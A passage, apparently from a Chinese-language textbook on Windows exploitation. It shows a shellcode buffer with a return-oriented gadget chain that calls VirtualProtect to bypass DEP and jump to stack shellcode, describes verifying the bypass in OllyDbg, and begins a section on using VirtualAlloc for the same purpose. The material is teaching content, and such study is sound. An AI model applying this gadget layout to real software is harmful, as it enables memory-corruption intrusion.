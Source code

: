 ```c
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"……" 
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0A\x1A\xBF\x7C"//pop pop pop retn
"\xBA\xD9\xBB\x7C"//修正 EBP
"\x8B\x17\x84\x7C"//RETN
"\x90\x90\x90\x90"
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\xFF\x00\x00\x00"//修改内存大小
"\x40\x00\x00\x00"//可读可写可执行内存属性代码
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE8\x1F\x80\x7C"//修改内存属性
"\x90\x90\x90\x90"
"\xA4\xDE\xA2\x7C"//jmp esp
"\x90\x90\x90\x90"
"\x90\x90\x90\x90" 
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
; 
```


<img src="images/09/利用virtualprotect绕过dep的shellcode布局.png">


再次编译程序，用 OllyDbg 加载程序，再次建议您单步运行程序，在执行完 JMP ESP 后您会发现程序转入 shellcode，并且可以在堆栈中执行指令，说明我们已经绕过了 DEP，如图 12.3.23 所示。

<img src="images/09/利用virtualprotect修改内存属性后可以在堆栈中执行shellcode.png">

继续运行程序就可以看到弹出熟悉的“failwest”对话框啦！

#### Ret2Libc 实战之利用 VirtualAlloc 

除了 VirtualProtect 函数，微软还提供了另一个 API 函数用来解决 DEP 对特殊程序的影响。当程序需要一段可执行内存时，可以通过 kernel32.dll 中的 VirtualAlloc 函数来申请一段具有可执行属性的内存。我们就可以将 Ret2Libc 的第一跳设置为 VirtualAlloc 函数地址，然后将 shellcode 复制到申请的内存空间里，以绕过 DEP 的限制。

我们先来看看 MSDN 上对 VirtualAlloc 函数的说明。
```
LPVOID WINAPI VirtualAlloc(
 __in_opt LPVOID lpAddress,
 __in SIZE_T dwSize,
 __in DWORD flAllocationType,
 __in DWORD flProtect
);
```
